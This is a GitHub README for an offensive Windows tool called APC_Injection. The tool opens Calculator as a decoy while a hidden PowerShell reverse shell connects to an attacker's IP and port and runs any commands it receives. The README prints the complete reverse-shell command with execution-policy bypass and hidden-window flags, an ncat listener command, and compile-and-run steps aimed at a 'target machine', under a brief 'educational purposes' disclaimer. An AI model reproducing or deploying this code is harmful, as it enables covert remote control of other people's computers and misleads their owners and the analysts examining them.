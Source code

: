 APC_Injection Program - README
Overview
The APC_Injection program is designed to perform various stealth operations using process injection techniques, including launching benign programs such as calc.exe to mislead analysts and executing a hidden reverse shell using PowerShell for remote control. The goal of this program is to appear benign while running malicious actions in the background, particularly focusing on network communication for remote command execution.

This README outlines the key functionalities of the program and how to configure and use it effectively.

Features
Launch Calculator (Calc.exe): Simulates a benign operation by launching the Windows Calculator.
Launch Reverse Shell: Uses PowerShell to establish a reverse TCP connection to a remote server, allowing the remote server to send commands and receive responses.
Stealth Execution: The reverse shell is launched in hidden mode using the powershell -NoP -NonI -W Hidden command, ensuring the command window is not visible to the user.
Modular Code: The program is organized into separate files to handle different operations, making it easy to modify or extend.
Components
The project consists of the following files:

Main.cpp: The main entry point for the program. It calls functions to either launch calc.exe or run a PowerShell reverse shell.
ShellOperations.cpp: Contains functions for launching both the calculator and the PowerShell reverse shell.
ShellOperations.h: Header file declaring the functions in ShellOperations.cpp.
Main.cpp
This file initializes the program and invokes the following key functions:

LaunchCalc() to open the calculator.
LaunchReverseShell() to start the reverse shell in a hidden PowerShell process.
ShellOperations.cpp
LaunchCalc(): This function executes calc.exe using system("calc.exe"), which is a harmless operation to distract from the actual payload.
LaunchReverseShell(): This function builds and executes a PowerShell command that creates a reverse shell back to a listener on a remote machine.
ShellOperations.h
Header file for function declarations:

cpp
Copy code
#ifndef SHELL_OPERATIONS_H
#define SHELL_OPERATIONS_H

void LaunchCalc();
void LaunchReverseShell();

#endif // SHELL_OPERATIONS_H
PowerShell Reverse Shell
The reverse shell is designed to connect back to a remote listener, allowing the remote machine to send commands to the compromised system. The PowerShell reverse shell is hidden and bypasses execution restrictions using -NoP -NonI -W Hidden -Exec Bypass.

Command Structure:

powershell
Copy code
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "
$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <attacker_port>);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535|%{0};
while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i);
$sendback = (iex $data 2>&1 | Out-String);
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte, 0, $sendbyte.Length);
$stream.Flush()};
$client.Close()"
Configuration
Replace <attacker_ip> with your actual IP address.
Replace <attacker_port> with the port where the listener is running (e.g., 443).
Setting Up a Listener
To receive the reverse shell connection, you must set up a listener on your machine. You can use tools such as Netcat (nc) or Ncat.

Netcat Listener Command:
bash
Copy code
ncat -lvnp 443
This sets up a listener on port 443 and will receive the incoming connection from the target machine running the reverse shell.

How to Compile and Run
Prerequisites
Windows: The program is designed for Windows systems.
MinGW/G++: Install MinGW to compile the program with G++.
Administrator Privileges: The reverse shell requires elevated privileges on the target machine.
Compilation
You can compile the program using the following command:

bash
Copy code
g++ -pipe src/Main.cpp src/ShellOperations.cpp -Iincludes -o APC_Injection.exe
Running the Program
Once compiled, run the generated APC_Injection.exe on the target machine:

bash
Copy code
APC_Injection.exe
Disclaimer
This program is intended for educational purposes only. Unauthorized use of this tool on any system without explicit permission is illegal and unethical. The developers of this tool are not responsible for any misuse.

By running this program, you acknowledge that it is designed for educational and ethical hacking purposes. Always ensure you have permission before testing on any machine.
